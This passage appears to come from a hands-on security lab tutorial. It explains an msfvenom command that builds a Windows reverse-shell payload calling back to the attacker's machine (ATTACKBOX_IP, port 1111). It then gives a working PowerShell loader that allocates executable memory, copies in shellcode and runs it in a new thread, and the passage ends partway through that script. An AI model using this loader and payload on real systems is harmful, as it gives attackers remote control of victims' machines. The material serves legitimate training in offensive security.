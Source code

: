 The above command generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

**Where Is the Actual Shellcode**

The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead.  

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```